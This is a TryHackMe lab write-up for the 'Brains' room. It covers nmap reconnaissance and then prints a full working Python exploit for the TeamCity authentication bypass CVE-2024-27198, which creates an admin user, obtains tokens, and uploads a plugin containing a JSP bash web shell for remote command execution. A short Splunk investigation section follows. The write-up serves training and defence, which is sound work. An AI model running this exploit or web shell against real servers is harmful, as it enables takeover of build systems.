


# Brains — Write-up
*The city forgot to close its gate.*

**Difficulty:** Easy  
**Platform:** TryHackMe  
**Room:** https://tryhackme.com/room/brains  

---

## Task 1 — Red: Exploit the Server

### Question 1
**What is the content of `flag.txt` in the user's home folder?**

---

## 1. Reconnaissance

---

### 1.1 Initial Port Scanning

```bash
nmap -n -Pn -T4 -p- $target_ip

22/tcp    open  ssh
80/tcp    open  http
40891/tcp open  unknown
50000/tcp open  ibm-db2
```
---

### 1.2 Service and Version Enumeration

```bash
nmap -n -Pn -T4 -sC -sV -p 22,80,40891,50000 $target_ip

Results:
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
80/tcp    open  http     Apache httpd 2.4.41
40891/tcp open  java-rmi Java RMI
50000/tcp open  http     Apache Tomcat (TeamCity)
```
---

### 1.3 SSH Service Validation

A direct connection attempt to the SSH service was performed to validate authentication mechanisms and access restrictions.

```bash
ssh $target_ip

Permission denied (publickey).
```
---

### 1.4 Java RMI Service Validation (Port 40891)

```bash
nmap -p 40891 --script rmi-dumpregistry,rmi-vuln-classloader $target_ip
```

#### Result:
* No accessible RMI registry entries were exposed
* No evidence of an enabled remote class loader
* Service did not disclose exploitable objects during initial enumeration

---

### 1.5 HTTP Service Validation (Port 80)

Accessing port **80** revealed an Apache web server serving a static maintenance page, indicating that the service is intentionally restricted and does not expose dynamic functionality at this stage.

The page did not present user input fields, interactive elements, or client-side scripts that could be leveraged for exploitation during initial reconnaissance.

---



--- 

### 2. Initial Access — TeamCity (Port 50000)

Accessing port 50000 revealed a publicly exposed TeamCity login interface.



---

### 3. Vulnerability Identification

After accessing the TeamCity web interface, the exact application version was identified directly from the login page:
**TeamCity 2023.11.3 (build 147512)**<br>
This version is affected by a publicly disclosed authentication bypass vulnerability, tracked as `CVE-2024-27198`, which allows unauthenticated access to protected REST API endpoints.<br>
The issue is caused by an error in TeamCity’s internal request routing logic. When an invalid path is combined with the `jsp=` parameter, authentication checks are skipped and the request is forwarded to internal resources without proper authorization re-evaluation.

### 4. Exploitation — CVE-2024-27198

Exploitation was performed using a custom Python script that automates the full attack chain, from authentication bypass to remote code execution on the host.

***Vulnerability Impact:***

* Creation of administrative users without authentication
* Generation of API access tokens
* Upload and activation of malicious TeamCity plugins
* Remote command execution on the underlying server

### Exploit Script

The following script was used to exploit the vulnerability and obtain a web shell on the target system:

<details>
<summary><strong>Click Here To View the `brains_script.py`</strong></summary>

```python
import requests
import re
import zipfile
import os
import sys
import time
import random
import string
import xml.etree.ElementTree as ET


TARGET = "http://brains.thm:50000"
# Random names to avoid conflicts in repeated executions
PLUGIN_NAME = "".join(random.choices(string.ascii_lowercase, k=8))
TOKEN_NAME = "".join(random.choices(string.ascii_letters + string.digits, k=10))

USER_DATA = {
    "username": "joey".join(random.choices(string.ascii_lowercase, k=6)),
    "password": "daenerys_pass",
    "email": "joey@local.com",
    "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}
}

VERIFY_TLS = False
TIMEOUT = 30

# Terminal colors
GREEN = "\033[92m"
RED = "\033[91m"
BLUE = "\033[94m"
YELLOW = "\033[93m"
RESET = "\033[0m"

session = requests.Session()

def add_user(target, user_data):
    url = f"{target.rstrip('/')}/hax?jsp=/app/rest/users;.jsp"
    headers = {"Content-Type": "application/json", "User-Agent": "Mozilla/5.0"}
    try:
        r = session.post(url, json=user_data, headers=headers, verify=VERIFY_TLS, timeout=TIMEOUT)
        root = ET.fromstring(r.text)
        user_id = root.attrib.get("id")
        if r.status_code == 200 and user_id:
            print(f"[+] User created: {GREEN}{user_data['username']}{RESET} (ID: {user_id})")
            return user_id
    except Exception as e:
        print(f"[-] Error creating user: {e}")
    return None

def get_token(target, user_id):
    url = f"{target.rstrip('/')}/hax?jsp=/app/rest/users/id:{user_id}/tokens/{TOKEN_NAME};.jsp"
    try:
        r = session.post(url, verify=VERIFY_TLS, timeout=TIMEOUT)
        root = ET.fromstring(r.text)
        token_value = root.attrib.get("value")
        if token_value:
            print(f"[+] Token obtained: {GREEN}{token_value[:15]}...{RESET}")
            return token_value
    except Exception as e:
        print(f"[-] Failed to parse token XML.")
    return None

def get_csrf(target, token):
    url = f"{target.rstrip('/')}/authenticationTest.html?csrf"
    headers = {"Authorization": f"Bearer {token}", "User-Agent": "Mozilla/5.0"}
    r = session.post(url, headers=headers, verify=VERIFY_TLS, timeout=TIMEOUT)
    if r.status_code == 200:
        print(f"[+] CSRF obtained: {GREEN}{r.text.strip()}{RESET}")
        return r.text.strip()
    return None

def build_zip(plugin_name):
    jar_name = f"{plugin_name}.jar"
    zip_name = f"{plugin_name}.zip"
    
    # JSP Payload (executes commands in Linux)
    jsp = r"""<%@ page import="java.util.Scanner" %><% String q = request.getParameter("cmd"); if (q != null) { Process p = new ProcessBuilder("/bin/bash","-c",q).start(); Scanner sc = new Scanner(p.getInputStream()).useDelimiter("\\A"); out.print(sc.hasNext() ? sc.next() : ""); sc.close(); } %>"""
    
    xml = f"""<teamcity-plugin xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:noNamespaceSchemaLocation="urn:schemas-jetbrains-com:teamcity-plugin-v1-xml">
    <info>
        <name>{plugin_name}</name>
        <display-name>{plugin_name}</display-name>
        <version>1.0</version>
    </info>
    <deployment use-separate-classloader="true"/>
</teamcity-plugin>"""
    
    with zipfile.ZipFile(jar_name, "w") as j:
        j.writestr(f"buildServerResources/{plugin_name}.jsp", jsp)
    
    with zipfile.ZipFile(zip_name, "w") as z:
        z.write(jar_name, arcname=f"server/{plugin_name}.jar")
        z.writestr("teamcity-plugin.xml", xml)
    
    os.remove(jar_name)
    print(f"[+] Local plugin {zip_name} built.")

def upload_and_run(target, token, csrf, plugin_name):
    # Upload endpoint
    url = f"{target.rstrip('/')}/admin/pluginUpload.html"
    
    # Clearing cookies to avoid session conflicts
    session.cookies.clear()
    
    headers = {
        "Authorization": f"Bearer {token}",
        "X-TC-CSRF-Token": csrf,
        "User-Agent": "Mozilla/5.0"
    }
    
    zip_filename = f"{plugin_name}.zip"
    files = {
        "fileName": (None, zip_filename),
        "file:fileToUpload": (zip_filename, open(zip_filename, "rb").read(), "application/zip")
    }
    
    print(f"[*] Uploading plugin {BLUE}{plugin_name}{RESET}...")
    r = session.post(url, files=files, headers=headers, verify=VERIFY_TLS)
    
    if r.status_code == 200:
        print(f"[+] Upload accepted. Waiting for server processing...")
        
        # TeamCity needs a few seconds to unzip and index the plugin
        uuid = None
        for i in range(15):
            time.sleep(1)
            admin_url = f"{target.rstrip('/')}/admin/admin.html?item=plugins"
            r_admin = session.get(admin_url, headers=headers)
            
            # Regex to capture the plugin UUID
            pattern = r"BS\.Plugins\.registerPlugin\('([^']*)', '[^']*',[^,]*,[^,]*,\s*'([^']*)'\);"
            matches = re.findall(pattern, r_admin.text)
            
            for name, u in matches:
                if name == plugin_name:
                    uuid = u
                    break
            if uuid: break
            if i % 5 == 0: print(f"[*] Checking index... ({i}/15s)")

        if uuid:
            print(f"[+] Plugin UUID found: {GREEN}{uuid}{RESET}. Activating...")
            
            # Plugin activation
            act_url = f"{target.rstrip('/')}/admin/plugins.html"
            act_data = f"enabled=true&action=setEnabled&uuid={uuid}"
            act_headers = headers.copy()
            act_headers["Content-Type"] = "application/x-www-form-urlencoded"
            
            session.post(act_url, data=act_data, headers=act_headers)
            print(f"[+] Plugin activated successfully!")
            
            # Interactive Terminal
            shell_url = f"{target.rstrip('/')}/plugins/{plugin_name}/{plugin_name}.jsp"
            print(f"\n{YELLOW}[!] RCE Terminal ready. Type 'quit' to exit.{RESET}")
            
            while True:
                cmd = input(f"{GREEN}shell> {RESET}")
                if cmd.lower() in ["quit", "exit"]:
                    break
                
                res = session.post(shell_url, data={"cmd": cmd}, headers=headers)
                print(res.text.strip())
        else:
            print(f"{RED}[-] Plugin upload done but UUID not found. Try increasing wait time.{RESET}")
    else:
        print(f"{RED}[-] Upload failed. Status Code: {r.status_code}{RESET}")

if __name__ == "__main__":
    print(f"{YELLOW}[*] Starting Exploit CVE-2024-27198...{RESET}")
    
    user_id = add_user(TARGET, USER_DATA)
    if user_id:
        api_token = get_token(TARGET, user_id)
        if api_token:
            csrf_token = get_csrf(TARGET, api_token)
            if csrf_token:
                build_zip(PLUGIN_NAME)
                upload_and_run(TARGET, api_token, csrf_token, PLUGIN_NAME)
            else:
                print(f"{RED}[-] Failed to obtain CSRF token.{RESET}")
        else:
            print(f"{RED}[-] Failed to obtain API token.{RESET}")
    else:
        print(f"{RED}[-] Failed to create user. Target might not be vulnerable.{RESET}")
```
</details><br>


***The script performs the following actions:***

* Creates a new user with administrative privileges via the REST API
* Generates an API token for the newly created user
* Retrieves a valid CSRF token
* Uploads a malicious TeamCity plugin containing a JSP web shell
* Activates the plugin and provides an interactive command execution interface

### 5. Post-Exploitation

Once remote code execution was achieved, it was possible to interact with the underlying operating system and retrieve the flag from the user’s home directory:

```
└─$ python3 brains_script.py 
[*] Starting Exploit CVE-2024-27198...
[+] User created: etawnr (ID: 21)
[+] Token obtained: eyJ0eXAiOiAiVEN...
[+] CSRF obtained: 98147364-d51a-4c00-9dfb-42ed578d9a60
[+] Local plugin ypfetuch.zip built.
[*] Uploading plugin ypfetuch...
[+] Upload accepted. Waiting for server processing...
[+] Plugin UUID found: f7c133ed-684b-4e2c-82a6-33c58765b6da. Activating...
[+] Plugin activated successfully!

[!] RCE Terminal ready. Type 'quit' to exit.
shell> whoami
ubuntu
shell> cat [redacted]
```
### 6. Conclusion

This machine demonstrates how a logical flaw in request routing within a complex application can lead to complete system compromise. Even with modern security mechanisms such as CSRF protection and token-based authentication, a single validation failure in the request flow can fully undermine the security model.

---
---
---

## Task 2 Blue: Let's Investigate

**Lab Connection**

Before moving forward, deploy the machine. When you deploy the machine, it will be assigned an IP address: MACHINE_IP. The Splunk instance will  be accessible in about 5 minutes and can be accessed at `MACHINE_IP:8000` using the credentials mentioned below:

* Username: splunk
* Password: analyst123

**Answer the questions below**

What is the name of the backdoor user which was created on the server after exploitation?

```h
source= "/var/log/auth.log" "new user" 
| table _raw
```
What is the name of the malicious-looking package installed on the server?

```h
source="/var/log/dpkg.log" "installed" date_month=july date_mday=4 
| table _raw
```


#### References:

JetBrains Security Advisory — CVE-2024-27198
https://www.jetbrains.com/security/<br>
Public exploit reference and analysis:
https://github.com/W01fh4cker/CVE-2024-27198-RCE<br>
Exploit-DB and public TeamCity write-ups<br>
Official TeamCity documentation (REST API and Plugin Development)


